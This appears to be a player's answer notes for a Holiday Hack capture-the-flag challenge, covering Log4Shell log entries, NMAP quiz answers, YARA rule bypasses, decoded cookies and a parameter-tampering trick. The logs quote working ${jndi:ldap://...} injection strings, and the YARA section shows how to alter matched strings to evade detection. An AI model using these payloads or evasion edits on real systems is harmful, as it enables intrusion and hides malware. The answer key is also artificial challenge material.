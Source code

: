 [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"

# NMAP challenge:

## Answer all the questions in the quizme executable:
#### What port does 34.76.1.22 have open? 
```62078```
#### What port does 34.77.207.226 have open? 
```8080```
#### How many hosts appear "Up" in the scan? 
```26054```
#### How many hosts have a web port open?  (Let's just use TCP ports 80, 443, and 8080) 
```14372```

```grep -E "(80|8080|443)/open" bigscan.gnmap | sort |  uniq | wc -l```
#### How many hosts with status Up have no (detected) open TCP ports? 
```402```

```echo $((`grep Up | wc -l` - `grep 'open/tcp' | wc -l`))```
#### What's the greatest number of TCP ports any one host has open? 
```12```

```grep -E "(open.*){12,}" | wc -l```


# YARA Bypass

## rule yara_rule_135 
   
   {
      meta:
         description = "binaries - file Sugar_in_the_machinery"
         author = "Sparkle Redberry"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-21"
         hash = "19ecaadb2159b566c39c999b0f860b4d8fc2824eb648e275f57a6dbceaf9b488"
      strings:
         $s = "candycane"
      condition:
         $s
   }

Change candycane to ```c@ndycane```

## rule yara_rule_1056 
   
   {
      meta:
         description = "binaries - file frosty.exe"
         author = "Sparkle Redberry"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-21"
         hash = "b9b95f671e3d54318b3fd4db1ba3b813325fcef462070da163193d7acb5fcd03"
      strings:
         $s1 = {6c 6962 632e 736f 2e36}
         $hs2 = {726f 6772 616d 2121}   #Hex for rogram!!
      condition:
         all of them
   }    

Change rogram!! to ```rogram?!```

## rule yara_rule_1732 
   
   {
      meta:
         description = "binaries - alwayz_winter.exe"
         author = "Santa"
         reference = "North Pole Malware Research Lab"
         date = "1955-04-22"
         hash = "c1e31a539898aab18f483d9e7b3c698ea45799e78bddc919a7dbebb1b40193a8"
      strings:
         $s1 = "This is critical for the execution of this program!!" fullword ascii #
         $s2 = "__frame_dummy_init_array_entry" fullword ascii                       #
         $s3 = ".note.gnu.property" fullword ascii
         $s4 = ".eh_frame_hdr" fullword ascii					  #
         $s5 = "__FRAME_END__" fullword ascii					  #
         $s6 = "__GNU_EH_FRAME_HDR" fullword ascii					  #
         $s7 = "frame_dummy" fullword ascii
         $s8 = ".note.gnu.build-id" fullword ascii
         $s9 = "completed.8060" fullword ascii
         $s10 = "_IO_stdin_used" fullword ascii
         $s11 = ".note.ABI-tag" fullword ascii
         $s12 = "naughty string" fullword ascii					#
         $s13 = "dastardly string" fullword ascii					#
         $s14 = "__do_global_dtors_aux_fini_array_entry" fullword ascii		#
         $s15 = "__libc_start_main@@GLIBC_2.2.5" fullword ascii  			#
         $s16 = "GLIBC_2.2.5" fullword ascii
         $s17 = "its_a_holly_jolly_variable" fullword ascii  			#
         $s18 = "__cxa_finalize" fullword ascii					#
         $s19 = "HolidayHackChallenge{NotReallyAFlag}" fullword ascii		#
         $s20 = "__libc_csu_init" fullword ascii
      condition:
         uint32(1) == 0x02464c45 and filesize < 50KB and
         10 of them
   }

Change HolidayHackChallenge{NotReallyAFlag} to ```HolidayHackChalleng3{NotReallyAFlag}```
Change dastardly string to ```datardly_string```
Change naughty string to ```naughty_string```
Change __frame_dummy_init_array_entry to ```__fram3_dummy_init_array_entry```
Change __do_global_dtors_aux_fini_array_entry to ```__d0_global_dtors_aux_fini_array_entry```
Change its_a_holly_jolly_variable to ```its_a_ho1ly_jolly_variable```
Change .eh_frame_hdr to ```.eh_frame_hDr```
Change __FRAME_END__ to ```__FRAME_3ND__```
Change __GNU_EH_FRAME_HDR to ```__GNU_EH_FRAM3_HDR```
Change __cxa_finalize to ```__cx@_finalize```
Change __libc_start_main@@GLIBC_2.2.5 to ```__libc_start_ma1n@@GLIBC_2.2.5```

# EXIFtool challenge

```exiftool 2021-12-*.docx | less /Jack```

```Caramel Santaigo```

Decoded Flask cookies Cyberchef from Base64 url safe zlib inflate

{"elf":"Tinsel Upatree","elfHints":["They kept checking their Snapchat app.","The elf mentioned something about Stack Overflow and Python.","Oh, I noticed they had a Star Trek themed phone case.","The elf got really heated about using tabs for indents.","hard"],"location":"Santa's Castle","options":[["Antwerp, Belgium","Prague, Czech Republic","New York, USA"],["Edinburgh, Scotland","Stuttgart, Germany","Reykjav\u00edk, Iceland"],["Montr\u00e9al, Canada","Antwerp, Belgium","Prague, Czech Republic"],["Rovaniemi, Finland","Placeholder","Tokyo, Japan"]],"randomSeed":721,"route":["New York, USA","Edinburgh, Scotland","Antwerp, Belgium","Placeholder"],"victoryToken":"{ hash:\"3852c096dcc7d6403ed61a0b247e979d28bca9714c25faa4956f2196ae7afb11\", resourceId: \"65485b84-6a1d-4dac-afcb-a43bbe34d01e\"}"}
{"elf":"Ribb Bonbowford","elfHints":["Oh, I noticed they had a Star Wars themed phone case.","The elf mentioned something about Stack Overflow and C#.","The elf got really heated about using tabs for indents.","They kept checking their Slack app.","hard"],"location":"Santa's Castle","options":[["Copenhagen, Denmark","Antwerp, Belgium","New York, USA"],["Edinburgh, Scotland","Reykjav\u00edk, Iceland","Stuttgart, Germany"],["Edinburgh, Scotland","Rovaniemi, Finland","New York, USA"],["New York, USA","Edinburgh, Scotland","Placeholder"]],"randomSeed":884,"route":["Antwerp, Belgium","Stuttgart, Germany","Edinburgh, Scotland","Placeholder"],"victoryToken":"{ hash:\"b2f333cb6d56c7329fb71f29ed29dd2c37861251290a29fc5649c44e37a23b13\", resourceId: \"f01c68fb-30e7-471c-aad3-380395e2cac6\"}"}

# Parameter tampering slot machine

Change 'cpl' to negative value to increase winnings